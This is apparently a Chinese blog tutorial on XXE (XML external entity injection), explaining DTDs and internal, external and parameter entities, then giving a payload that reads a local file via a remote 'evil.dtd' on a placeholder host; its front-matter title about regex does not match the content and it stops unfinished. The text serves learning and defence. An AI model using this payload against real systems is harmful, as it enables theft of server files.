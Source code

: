 ```yaml
---
layout:     post                    # 使用的布局（不需要改）
title:      哇，正则你好犀利               # 标题 
subtitle:   正则表达式的美丽
date:       2020-03-27              # 时间
author:     z0L1n                      # 作者
header-img: img/post-bg-2015.jpg    #这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               #标签
    - 基础
---
```


## 0x00 XXE他是谁？
XXE：XML external entity injection,全称外部实体注入，也就是注入漏洞，下面大概展示一下：
<ag> 用户输入 </ag>   此时我们的用户输入如果为 111</ag><ag>222,那么这个语句为```<ag>111</ag><ag>222</ag>```，此时超出预期用户输入，便就是XML注入。
我们的XXE要注重于外部实体注入，那么先学习一下相关基础知识：

XML 文档有自己的一个格式规范，这个格式规范是由一个叫做 DTD（document type definition） 的东西控制的，他就是长得下面这个样子：
```
<?xml version="1.0"?>//这一行是 XML 文档定义
<!DOCTYPE foo [
<!ELEMENT x ANY>
<!ENTITY xxe "jjjj">
]>
<x>&xxe;<x>
```
这里定义了XML 的根元素foo，然后下面有子元素x，其中实体为xxe。
当我们使用的时候只需添加一行
```<x>&xxe；</x>```即可引用，输出的时候&xxe被替换为jjjj。

这里就要说一下啦外部实体和内部实体，以上就是内部实体了，外部实体为以下例子：
```<!ENTITY  xxe SYSTEM "file://c:/test.dtd">```

这里简单拓展一下通用实体和参数实体：
通用实体：用 &实体名; 引用的实体，他在DTD 中定义，在 XML 文档中引用，```ps：<!ENTITY xxe "jjjj">···<x>&xxe;</x>```
参数实体：
(1)使用 % 实体名(这里面空格不能少) 在 DTD 中定义，并且只能在 DTD 中使用 %实体名; 引用
(2)只有在 DTD 文件中，参数实体的声明才能引用其他实体
(3)和通用实体一样，参数实体也可以外部引用
例子如下：
```
<!ENTITY % an-element "<!ELEMENT mytag (subtag)>"> 
<!ENTITY % remote-dtd SYSTEM "http://somewhere.example.org/remote.dtd"> 
%an-element; %remote-dtd;
```
学习到这里我们就应该知道实体构造是个怎么回事了，接下来根据表哥的例子来学习一波：
1、payload：
```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % goodies SYSTEM "file:///d:/test.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "http://ip/evil.dtd"> 
%dtd; ]> 
<roottag>&all;</roottag>

其中evil.dtd内容为：
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%goodies;%end;">

```
继续 研读：：：：



